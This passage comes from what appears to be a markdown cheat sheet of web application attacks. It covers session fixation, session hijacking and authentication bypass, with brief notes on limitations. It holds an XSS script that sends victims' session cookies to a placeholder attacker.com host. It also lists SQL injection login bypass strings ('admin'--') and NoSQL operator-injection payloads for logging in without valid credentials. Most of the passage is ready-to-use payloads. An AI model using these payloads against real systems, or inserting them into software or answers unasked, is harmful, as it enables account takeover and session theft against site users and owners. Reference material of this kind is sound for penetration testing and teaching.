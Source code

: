 **Documentation**: Advanced SSRF techniques for bypassing filters and accessing restricted resources.
**Limitations**: Modern frameworks have SSRF protections; network monitoring can detect unusual traffic.

## Authentication and Session Attacks

### Session Fixation and Hijacking
```javascript
// Session Fixation
// 1. Attacker gets session ID: JSESSIONID=ABC123
// 2. Victim visits: http://example.com/login?JSESSIONID=ABC123
// 3. Victim logs in with fixed session ID
// 4. Attacker uses same session ID to access victim's account

// Session Hijacking via XSS
<script>
document.location='http://attacker.com/steal?session='+document.cookie;
</script>

// Session Prediction
// If session IDs are predictable, generate next valid session
// Example: incrementing numbers, timestamps, weak random generators
```

**Documentation**: Session-based attacks for account takeover and unauthorized access.
**Limitations**: Secure session management and HTTPOnly cookies prevent many attacks.

### Authentication Bypass Techniques
```sql
-- SQL Authentication Bypass
Username: admin'-- 
Password: anything

Username: admin'/*
Password: anything

-- NoSQL Authentication Bypass
{"username": {"$ne": null}, "password": {"$ne": null}}
{"username": {"$regex": ".*"}, "password": {"$regex": ".*"}}

-- JSON Authentication Bypass
{"username": "admin", "password": {"$ne": "invalid"}}
```

**Documentation**: Various techniques for bypassing authentication mechanisms.
**Limitations**: Parameterized queries prevent SQL injection; proper input validation blocks NoSQL injection.

## Web Application Scanning and Automation
